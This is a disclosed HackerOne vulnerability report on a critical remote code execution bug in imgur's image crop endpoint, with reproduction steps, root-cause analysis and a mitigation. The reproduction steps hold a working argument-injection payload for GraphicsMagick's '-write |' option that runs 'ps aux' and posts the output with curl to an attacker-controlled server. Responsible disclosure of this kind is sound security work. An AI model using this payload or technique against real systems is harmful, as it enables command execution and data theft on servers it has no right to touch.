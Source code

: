 # RCE by command line argument injection to `gm convert` in `/edit/process?a=crop`

## Report Details
- **Report ID**: 212696
- **URL**: https://hackerone.com/reports/212696
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-03-12T03:46:46.948Z
- **Disclosed**: 2017-04-26T21:30:28.855Z

## Reporter
- **Username**: neex
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: imgur

## Vulnerability Information
### Summary

The `y` parameter of `/edit/process` endpoint (with `a=crop`) is vulnerable to command-line argument injection to something that appears to be GraphicsMagick utility (probably `gm convert`). Due to GraphicsMagick's hacker-friendly processing of `|`-starting filenames supplied to `-write` option, it leads to command execution.

### Reproduction steps

0. Enable Burp Proxy or similar software that allows you to log and edit HTTP requests.
1. Login into your imgur account and upload an image.
2. Move your mouse over the image, click on the tiny button with pencil on it, then click "Edit".
3. Select a random rectangle on the image, then click "Apply".
4. In the burp suite, you will see a request to an URL like this:  `http://<your-account>.imgur.com/edit/process?imageid=c9e1351c21542062f35a12130945210b&a=crop&x=0&y=0&w=700&h=746&random=4011802027746510`

     Change the `y` parameter of the request so it becomes `0 -write |ps${IFS}aux|curl${IFS}http://<your-server>${IFS}-d${IFS}@-`. 

     The full URL after the change must look like `http://<your-account>.imgur.com/edit/process?imageid=c9e1351c21542062f35a12130945210b&a=crop&x=0&y=0%20-write%20|ps${IFS}aux|curl${IFS}http://<your-server>{IFS}-d${IFS}@-&w=700&h=830&random=9905392865702303`, note that you have to change `<your-server>` to a webserver under your control).

5. Fire a request to the modified URL. The command (`ps aux|curl http://<your-server> -d @-`) will be executed somewhere inside imgur, and you will get a HTTP request to `<your-server>` with the result of `ps aux` in the POST body.  You can replace `ps aux` with another command (but you have to write `${IFS}` instead of spaces).

### Detailed description

I was searching for CVE-2016-10033-like vulnerabilities on several bugbounty sites when I noticed strange behaviour of the mentioned parameter. The vulnerability exists because the user input (the contents of `y` GET parameter) goes into a shell command. While all special characters (like `|`, `$` and so on) seem to be escaped, the space character is not. This allows the attacker to insert additinal command line arguments. The common reason for such behaviour is `escapeshellcmd` PHP function, but that can also be some kind of custom input filtering/processing.

The rest of the exploitation depends on the program that is executed (we need to find out if it supports any dangerous command-line options). Common sense suggests that the external command launched by "Crop/Resize" function must be some image processing tool. The most popular one is ImageMagick/GraphicsMagick, so I appended ` -rotate 90` to the parameter and it succeded --- I saw lying Trump (I mean, the image was rotated). After more tries I was sure it's GraphicsMagick (probably `gm convert` utility). I read the documentation and found that `-write` argument supports perl-style filenames starting with a pipe --- in this case the rest of the filename must be a command to execute.

### Mitigation

Probably either some kind of custom processing or `escapeshellcmd` function is used to construct the command line. In both cases, replace it with applying `escapeshellarg` to individual arguments. In the second case, you probably want to run `grep -R escapeshellcmd <path to the source code>` to find more vulns :-)


## Attachments
No attachments
